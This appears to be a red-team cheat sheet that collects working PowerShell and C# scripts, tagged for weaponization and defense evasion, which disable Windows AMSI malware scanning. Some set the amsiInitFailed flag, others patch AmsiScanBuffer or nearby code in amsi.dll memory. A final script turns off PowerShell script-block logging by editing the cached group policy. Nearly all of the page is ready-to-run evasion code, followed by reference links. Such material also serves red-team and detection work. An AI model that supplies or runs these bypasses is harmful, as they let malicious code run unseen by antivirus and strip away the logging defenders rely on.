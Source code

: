 # AMSI Bypass

Search Tag(s): #helpers #weaponization #implant-development #defense-evasion

## Matt Graebers

`$ cat matt-graebers-amsi-bypass.ps1`

---

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

## Rasta Mouse

`$ cat rasta-mouse-amsi-bypass.ps1`

---

```powershell
$API = @"  
using System;  
using System.Runtime.InteropServices;  
public class Win32 {  
    [DllImport("kernel32")]  
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName)  
    [DllImport("kernel32")]  
    public static extern IntPtr LoadLibrary(string name);  
    [DllImport("kernel32")]  
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out lpflOldProtect)  
}  
"@  
Add-Type $API  
$LoadLibrary = [Win32]::LoadLibrary("amsi.dll")  
$Address = [Win32]::GetProcAddress($LoadLibrary, "AmsiScanBuffer")  
$oldprotect = 0  
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$oldprotect)  
$Patch = [Byte[]] (0xb8, 0x57, 0x00, 0x80, 0xc3)  
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

## Am0nSec

`$ cat am0nsec-amsi-bypass.ps1`

---

```powershell
$API = @"  
using System;  
using System.Runtime.InteropServices;  
  
public class Kernel32 {  
    [DllImport("kernel32")]  
    public static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);  
  
    [DllImport("kernel32")]  
    public static extern IntPtr LoadLibrary(string lpLibFileName);  
  
    [DllImport("kernel32")]  
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);  
}  
"@  
  
Add-Type $API  
  
Class Hunter {  
    static [IntPtr] FindAddress([IntPtr]$address, [byte[]]$egg) {  
        while ($true) {  
            [int]$count = 0  
  
            while ($true) {  
                [IntPtr]$address = [IntPtr]::Add($address, 1)  
                If ([System.Runtime.InteropServices.Marshal]::ReadByte($address) -eq $egg.Get($count)) {  
                    $count++  
                    If ($count -eq $egg.Length) {  
                        return [IntPtr]::Subtract($address, $egg.Length - 1)  
                    }  
                } Else { break }  
            }  
        }  
  
        return $address  
    }  
}  
  
[IntPtr]$hModule = [Kernel32]::LoadLibrary("amsi.dll")  
Write-Host "[+] AMSI DLL Handle: $hModule"  
  
[IntPtr]$dllCanUnloadNowAddress = [Kernel32]::GetProcAddress($hModule, "DllCanUnloadNow")  
Write-Host "[+] DllCanUnloadNow address: $dllCanUnloadNowAddress"  
  
If ([IntPtr]::Size -eq 8) {  
    Write-Host "[+] 64-bits process"  
    [byte[]]$egg = [byte[]] (  
        0x4C, 0x8B, 0xDC,       # mov     r11,rsp  
        0x49, 0x89, 0x5B, 0x08, # mov     qword ptr [r11+8],rbx  
        0x49, 0x89, 0x6B, 0x10, # mov     qword ptr [r11+10h],rbp  
        0x49, 0x89, 0x73, 0x18, # mov     qword ptr [r11+18h],rsi  
        0x57,                   # push    rdi  
        0x41, 0x56,             # push    r14  
        0x41, 0x57,             # push    r15  
        0x48, 0x83, 0xEC, 0x70  # sub     rsp,70h  
    )  
} Else {  
	Write-Host "[+] 32-bits process"  
    [byte[]]$egg = [byte[]] (  
        0x8B, 0xFF,             # mov     edi,edi  
        0x55,                   # push    ebp  
        0x8B, 0xEC,             # mov     ebp,esp  
        0x83, 0xEC, 0x18,       # sub     esp,18h  
        0x53,                   # push    ebx  
        0x56                    # push    esi  
    )  
}  
[IntPtr]$targetedAddress = [Hunter]::FindAddress($dllCanUnloadNowAddress, $egg)  
Write-Host "[+] Targeted address: $targetedAddress"  
  
$oldProtectionBuffer = 0  
[Kernel32]::VirtualProtect($targetedAddress, [uint32]2, 4, [ref]$oldProtectionBuffer) | Out-Null  
  
$patch = [byte[]] (  
    0x31, 0xC0,    # xor rax, rax  
    0xC3           # ret    
)  
[System.Runtime.InteropServices.Marshal]::Copy($patch, 0, $targetedAddress, 3)  
  
$a = 0  
[Kernel32]::VirtualProtect($targetedAddress, [uint32]2, $oldProtectionBuffer, [ref]$a) | Out-Null
```

## Adam Chester

`$ cat adam-chester-amsi-bypass.ps1`

---

```powershell
$Patch = @"  
using System;  
using System.Runtime.InteropServices;  
  
public class patch  
{  
    // https://twitter.com/_xpn_/status/1170852932650262530  
    static byte[] x64 = new byte[] { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };  
    static byte[] x86 = new byte[] { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC2, 0x18, 0x00 };  
  
    public static void it()  
    {  
        if (is64Bit())  
            PatchAmsi(x64);  
        else  
            PatchAmsi(x86);  
    }  
  
    private static void PatchAmsi(byte[] patch)  
    {  
        try  
        {  
            var lib = Win32.LoadLibrary("amsi.dll");  
            var addr = Win32.GetProcAddress(lib, "AmsiScanBuffer");  
  
            uint oldProtect;  
            Win32.VirtualProtect(addr, (UIntPtr)patch.Length, 0x40, out oldProtect);  
  
            Marshal.Copy(patch, 0, addr, patch.Length);  
            Console.WriteLine("Patch Sucessfull");  
        }  
        catch (Exception e)  
        {  
            Console.WriteLine(" [x] {0}", e.Message);  
            Console.WriteLine(" [x] {0}", e.InnerException);  
        }  
    }  
  
    private static bool is64Bit()  
        {  
            bool is64Bit = true;  
  
            if (IntPtr.Size == 4)  
                is64Bit = false;  
  
            return is64Bit;  
        }  
}  
  
class Win32  
{  
    [DllImport("kernel32")]  
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);  
  
    [DllImport("kernel32")]  
    public static extern IntPtr LoadLibrary(string name);  
  
    [DllImport("kernel32")]  
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);  
}  
"@  
  
Add-Type -TypeDefinition $Patch -Language CSharp  
[patch]::it()
```

## Cobbr

```powershell
$GroupPolicyField = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static');
If ($GroupPolicyField) {
    $GroupPolicyCache = $GroupPolicyField.GetValue($null);
    If ($GroupPolicyCache['ScriptBlockLogging']) {
        $GroupPolicyCache['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0;
        $GroupPolicyCache['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0;
    }
    $val = [System.Collections.Generic.Dictionary[string,System.Object]]::new();
    $val.Add('EnableScriptBlockLogging', 0);
    $val.Add('EnableScriptBlockInvocationLogging', 0);
    $GroupPolicyCache['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging'] = $val
};
```

---
## References

- [AMSI Bypass Methods](https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/)

- [Amsi Bypass Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)

- [AmsiScanBufferBypass](https://github.com/rasta-mouse/AmsiScanBufferBypass)

- [Memory Patching AMSI Bypass](https://rastamouse.me/memory-patching-amsi-bypass/)

- [Cobbr: ScriptBlockLogBypass](https://gist.github.com/cobbr/d8072d730b24fbae6ffe3aed8ca9c407)

- [How to Bypass AMSI and Execute ANY Malicious Powershell Code](https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html)

- [PayloadsAllTheThings: Windows - AMSI Bypass](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20AMSI%20Bypass.md)